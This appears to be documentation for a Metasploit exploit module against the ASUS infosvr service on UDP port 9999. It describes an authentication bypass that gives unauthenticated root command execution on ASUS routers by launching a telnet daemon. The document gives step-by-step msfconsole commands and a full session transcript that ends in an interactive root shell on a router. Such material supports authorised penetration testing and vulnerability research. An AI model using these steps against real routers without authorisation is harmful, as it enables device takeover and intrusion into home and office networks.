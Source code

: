 ## Description

  This module exploits an authentication bypass vulnerability in the infosvr service running on various ASUS routers to execute arbitrary commands as `root`.


## Vulnerable Application

  The ASUS infosvr service is enabled by default on various models of ASUS routers and listens on the LAN interface on UDP port 9999. Unpatched versions of this service allow unauthenticated remote command execution as the `root` user.

  This module launches the BusyBox Telnet daemon on the port specified in the `TelnetPort` option to gain an interactive remote shell.

  This module was tested successfully on an ASUS RT-N12E with firmware version 2.0.0.35.

  Numerous ASUS models are [reportedly affected](https://github.com/jduck/asus-cmd), but untested.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/misc/asus_infosvr_auth_bypass_exec`
  3. `set RHOST [IP]`
  4. `run`
  5. You should get a *root* session


## Options


### TelnetPort

  The port for Telnetd to bind (default: `4444`)

### TelnetTimeout

  The number of seconds to wait for connection to telnet (default: `10`)

### TelnetBannerTimeout

  The number of seconds to wait for the telnet banner (default: `25`)

### CommandShellCleanupCommand

  A command to run before the session is closed (default: `exit`)

  If the session is killed (CTRL+C) rather than exiting cleanly,
  the telnet port remains open, but is unresponsive, and prevents
  re-exploitation until the device is rebooted.


## Scenarios

  ```
  msf > use exploit/linux/misc/asus_infosvr_auth_bypass_exec
  msf exploit(linux/misc/asus_infosvr_auth_bypass_exec) > set rhost 10.1.1.1
  rhost => 10.1.1.1
  msf exploit(linux/misc/asus_infosvr_auth_bypass_exec) > set telnetport 4444
  telnetport => 4444
  msf exploit(linux/misc/asus_infosvr_auth_bypass_exec) > set verbose true
  verbose => true
  msf exploit(linux/misc/asus_infosvr_auth_bypass_exec) > run 

  [*] 10.1.1.1 - Starting telnetd on port 4444...
  [*] 10.1.1.1 - Waiting for telnet service to start on port 4444...
  [*] 10.1.1.1 - Connecting to 10.1.1.1:4444...
  [*] 10.1.1.1 - Trying to establish a telnet session...
  [+] 10.1.1.1 - Telnet session successfully established...
  [*] Found shell.
  [*] Command shell session 1 opened (10.1.1.197:42875 -> 10.1.1.1:4444) at 2017-11-28 07:38:37 -0500

  id
  /bin/sh: id: not found
  # cat /proc/version
  cat /proc/version
  Linux version 2.6.30.9 (root@wireless-desktop) (gcc version 3.4.6-1.3.6) #2 Thu Sep 18 18:12:23 CST 2014
  # exit
  exit
  ```

